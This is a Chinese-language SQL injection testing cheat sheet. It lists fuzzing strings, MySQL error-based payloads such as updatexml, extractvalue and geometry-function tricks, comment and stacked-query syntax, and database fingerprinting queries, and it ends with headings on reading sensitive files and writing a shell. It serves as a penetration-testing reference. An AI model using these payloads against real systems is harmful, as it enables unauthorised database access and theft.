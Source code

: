 注入检测
=====================================

常见的注入点
--------------------------------------
- GET/POST/PUT/DELETE参数
- X-Forward
- 文件名

Fuzz注入点
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

测试用常量
--------------------------------------
- ``@@version``
- ``@@servername``
- ``@@language``
- ``@@spid``

测试列数
--------------------------------------
例如 ``http://www.foo.com/index.asp?id=12+union+select+nulll,null--`` ，不断增加 ``null`` 至不返回

报错注入
--------------------------------------
- ``select 1/0``
- ``select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a``
- ``extractvalue(1, concat(0x5c,(select user())))``
- ``updatexml(0x3a,concat(1,(select user())),1)``
- ``exp(~(SELECT * from(select user())a))``
- ``GeometryCollection((select * from (select * from(select user())a)b))``
- ``polygon((select * from(select * from(select user())a)b))``
- ``multipoint((select * from(select * from(select user())a)b))``
- ``multilinestring((select * from(select * from(select user())a)b))``
- ``LINESTRING((select * from(select * from(select user())a)b))``
- ``multipolygon((select * from(select * from(select user())a)b))``
- ``ST_LatFromGeoHash((select * from(select * from(select user())a)b))``
- ``GTID_SUBSET(version(), 1)``

堆叠注入
--------------------------------------
- ``;select 1``

注释符
--------------------------------------
- ``#``
- ``--+``
- ``/*xxx*/``
- ``/*!xxx*/``
- ``/*!50000xxx*/``

判断过滤规则
--------------------------------------
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

获取信息
--------------------------------------
- 判断数据库类型
    - ``and exists (select * from msysobjects ) > 0`` access数据库
    - ``and exists (select * from sysobjects ) > 0`` SQLServer数据库

- 判断数据库表
    - ``and exsits (select * from admin)``

- 版本、主机名、用户名、库名
- 表和字段
    - 确定字段数
        - Order By
        - Select Into
    - 表名、列名

测试权限
--------------------------------------
- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求
